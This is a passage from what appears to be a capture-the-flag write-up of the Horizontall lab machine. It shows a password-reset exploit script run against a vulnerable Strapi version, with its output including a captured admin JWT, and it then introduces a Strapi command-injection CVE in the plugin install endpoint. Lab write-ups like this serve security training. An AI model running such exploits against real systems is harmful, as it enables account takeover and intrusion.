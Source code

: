 ```
$ python resetpw.py admin@horizontall.htb http://api-prod.horizontall.htb whatever
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response:
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMTgzMDI4LCJleHAiOjE2MzI3NzUwMjh9.ES00z3EnbKK8iodAbp8XBsN2QrWiLJZCMMxIIXRe15Y","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```

After the script successfully completes we are now able to log into `strapi` as the `admin@horizontall.htb` user.

[![logged_in](/img/horizontall/logged_in.png)](/img/horizontall/logged_in.png)

### Command injection | CVE-2019-19609

There is another CVE affecting this version of `strapi`. Following this [PoC](https://bittherapy.net/post/strapi-framework-remote-code-execution/) we are able to abuse command injection in the `plugin` value of the  `/admin/plugins/install` functionality.
